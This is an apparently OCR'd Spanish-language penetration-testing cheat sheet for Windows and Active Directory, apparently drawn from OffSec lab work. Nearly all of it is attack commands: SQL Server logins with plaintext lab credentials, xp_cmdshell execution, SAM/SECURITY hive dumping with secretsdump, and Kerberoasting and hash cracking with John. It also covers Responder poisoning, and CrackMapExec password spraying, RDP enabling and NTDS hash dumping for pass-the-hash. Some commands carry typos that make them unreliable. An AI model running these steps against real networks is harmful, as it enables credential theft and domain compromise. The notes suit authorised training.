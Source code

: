 **\- SQL**
mssqlclient.py -port 1435 sa:EjectFrailtyThorn425@192.168.67.70
impacket-mssqlclient -p 1433 1NSIDER/sa:sqls3rv3r@10.11.1.111
con acceso como adminnistrador permite ejecutar comandos en el sistema, el cual se logra tener revershell
SQL> enable\_xp\_cmdshell;
SQL> xp\_cmdshell whoami

<br>
**\- Dump password windows Cache** \- NOTA: Estos archivos se deben generar con usuario System
reg save HKLM\\sam sam
reg save HKLM\\system system
reg save HKLM\\security security
\- pasar a impacket los archivos generados
impacket-secretsdump -sam sam -security security -system system LOCAL
[\*] Dumping cached domain logon information (domain/username:hash)
Domain/Nathan:$DCC2$10240#Nathan#298e6604af6e3f8a9fac422ab8feaf26
-guardar lo anterior en archivo key y crackear password
john --wordlist=rockyou.txt key

**\- extraer informacion de usuarios principales SPNs**
impacket-GetUserSPNs -dc-ip 192.168.183.57 'OFFSEC.LOCAL/usuario:password' -outputfile UserSPNs
john --format=krb5tgs --wordlist=rockyou.txt UserSPNs
john --format=krb5tgs --show UserSPNs

<br>
<br>
**\- Bloodhound**
/opt/Windows/BloodHound\_Python/bloodhound.py -d heist.offsec -u enox -p california -c all -ns 192.168.194.165
sudo neo4j console
sudo bloodhound

<br>
<br>
<br>
ver privilegios
getprivs

ver procesos
ps

fcastle = administrador en el equipode pparker
pparker = usuario sin permisos (iptarget)

reponder.py -I eth0 -rdw <--- envenenador de trafico
crakcear por ferza bruta
john --worldist=rockou.txt hashes

Identificar equipos en la red y se identifica si tiene SMB firmado o no
crackmapexec smb ip/24 o solo la ip

Identificar usuarios administradores en los equipos (Pwn3d!) Password sparaying
crackmapexec smb ip/24 -u 'usuarioconprivilegios' -p'password1' ##los que salgan con (pwn3d! siginifica que tenemos acceso)
crackmapexec smb ip/24 -u 'usuarioconprivilegios' -p'password1' -M rdp -o action=enable ##habilitar RDP en los equipos
crackmapexec smb ip-del-DC -u 'usuarioconprivilegios' -p'password1' --ntds -vss ##dump los hashes, se puede hacer pass the hash "pth"

